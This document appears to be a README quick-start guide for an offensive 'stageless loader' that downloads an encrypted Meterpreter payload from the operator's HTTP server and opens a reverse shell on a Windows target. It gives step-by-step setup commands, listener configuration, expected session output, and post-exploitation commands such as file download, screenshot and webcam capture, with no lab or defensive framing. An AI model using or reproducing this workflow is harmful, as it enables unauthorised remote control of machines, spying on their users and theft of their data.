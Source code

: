 # Quick Start Guide - Stageless Loader

**Get up and running in 3 commands!**

---

## Super Fast Setup

```bash
# 1. Run automated setup
./setup.sh

# 2. Start HTTP server (Terminal 1)
./start_server.sh

# 3. Start Metasploit listener (Terminal 2)
./start_listener.sh

# 4. Run stageless_loader.exe on Windows target
```

**That's it!** You'll get a Meterpreter shell.

---

## Step-by-Step (First Time Users)

### 1. Setup (One Time)

```bash
cd /home/yenn/Desktop/beacons
./setup.sh
```

**Prompts:**
```
Enter your Kali IP (LHOST) [10.10.10.100]: <YOUR_IP>
Enter listener port (LPORT) [4444]: <YOUR_PORT>
Enter HTTP server port [8080]: <HTTP_PORT>
Continue with this configuration? (y/n): y
```

**Output:**
```
Payload generated
Payload encrypted
Loader compiled
Scripts created
```

---

### 2. Start Server

**Terminal 1:**
```bash
./start_server.sh
```

**Output:**
```
[*] Starting HTTP server on port 8080...
[*] Payload URL: http://10.10.10.100:8080/payload.enc
[+] Server is running. Press CTRL+C to stop.
```

**Leave this running!**

---

### 3. Start Listener

**Terminal 2:**
```bash
./start_listener.sh
```

**Output:**
```
[*] Starting Metasploit handler...
[*] Listening on: 10.10.10.100:4444
[*] Started reverse TCP handler on 10.10.10.100:4444
```

**Leave this running!**

---

### 4. Run on Windows

1. Copy `stageless_loader.exe` to Windows machine
2. Double-click or run via command line
3. Wait 2-5 seconds

**In Metasploit console, you'll see:**
```
[*] Meterpreter session 1 opened (10.10.10.100:4444 -> 192.168.1.X:XXXXX)
```

---

### 5. Interact with Shell

**In Metasploit:**
```bash
# List sessions
sessions -l

# Connect to session
sessions -i 1

# You're now in Meterpreter!
meterpreter > sysinfo
meterpreter > getuid
meterpreter > pwd
meterpreter > shell     # Get cmd.exe shell
```

---

## For Different Target (New IP/Port)

```bash
./setup.sh
# Enter new IP/Port
# Everything rebuilds automatically
```

---

## Quick Troubleshooting

**No connection?**
```bash
# Check server is running
curl http://10.10.10.100:8080/payload.enc

# Check listener
# In Metasploit: jobs -l

# Check sessions
# In Metasploit: sessions -l
```

**Session dies?**
```bash
# Run loader again - it works!
# Sessions may take 5-10 seconds
```

---

## What You Get

| File | Size | Purpose |
|------|------|---------|
| `stageless_loader.exe` | 17KB | Clean loader (NO MSFVenom) |
| `payload.enc` | 200KB | Encrypted Meterpreter |
| `start_server.sh` | - | HTTP server |
| `start_listener.sh` | - | Metasploit handler |

---

## Success Indicators

**HTTP Server:**
```
Serving HTTP on 0.0.0.0 port 8080
192.168.1.X - - [DATE] "GET /payload.enc HTTP/1.1" 200 -
```
Windows downloaded the payload!

**Metasploit:**
```
[*] Meterpreter session 1 opened
```
You got a shell!

**Meterpreter Prompt:**
```
meterpreter >
```
Interactive shell ready!

---

## Common Commands

**In Meterpreter:**
```bash
sysinfo          # System information
getuid           # Current user
pwd              # Current directory
ls               # List files
cd C:\\Users     # Change directory
download file    # Download file
upload file      # Upload file
screenshot       # Take screenshot
webcam_snap      # Take photo
shell            # Get cmd.exe
```

**Session Management:**
```bash
sessions -l      # List sessions
sessions -i 1    # Interact with session 1
sessions -k 1    # Kill session 1
background       # Background session (CTRL+Z)
```

---

## If Something Goes Wrong

**Reset everything:**
```bash
# Kill all
jobs -K          # In Metasploit
CTRL+C           # In HTTP server

# Restart
./setup.sh       # Regenerate everything
./start_server.sh
./start_listener.sh
```

---

**For detailed docs:** See `README.md`

**Generated:** $(date)
